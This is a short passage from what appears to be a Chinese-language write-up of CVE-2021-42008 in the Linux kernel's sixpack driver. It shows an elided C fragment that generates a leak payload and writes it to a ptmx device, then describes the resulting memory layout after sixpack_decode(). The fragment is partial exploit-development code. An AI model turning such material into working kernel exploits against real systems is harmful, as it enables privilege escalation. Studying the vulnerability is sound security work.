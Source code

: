 ```c
    encoded[1] = 0x98;

    return encoded;
}

[...]

payload = generate_payload(0); 				// [1]
write(ptmx, payload, LEAK_PAYLOAD_SIZE); 	// [9]

[...]
```

通过sixpack channel 发送payload，并被`sixpack_decode()`处理之后，内存布局如下所示：

![8](/images/posts/CVE-2021-42008/\8.png)

